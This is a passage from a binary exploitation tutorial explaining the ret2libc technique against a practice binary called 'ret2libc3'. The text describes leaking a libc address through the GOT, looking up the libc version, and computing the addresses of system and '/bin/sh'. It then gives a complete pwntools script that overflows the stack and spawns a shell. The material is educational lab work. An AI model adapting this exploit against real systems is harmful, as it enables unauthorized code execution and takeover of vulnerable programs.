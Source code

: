 
So if we know the address of a function in libc, then we can determine the libc that the program uses. Then we can know the address of the system function.


So how do I get the address of a function in libc? The commonly used method is to use the got table leak, that is, output the contents of the got item corresponding to a function. ** Of course, due to the lazy binding mechanism of libc, we need to leak the address of the function that has been executed. **


We can naturally get libc according to the above steps, then query the offset in the program, and then get the system address again, but this manual operation is too many times, a little trouble, here is a libc utilization tool, please refer to the readme for details.


- https://github.com/lieanu/LibcSearcher


In addition, after getting libc, there is actually a /bin/sh string in libc, so we can get the address of the /bin/sh string together.


Here we leak the address of __libc_start_main because it is where the program was originally executed. Basic use ideas are as follows


- Leak __libc_start_main address
- Get the libc version
- Get the address of the system address and /bin/sh
- Execute the source program again
- Trigger stack overflow execution system("/bin/sh")


Here is the exploit:


```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

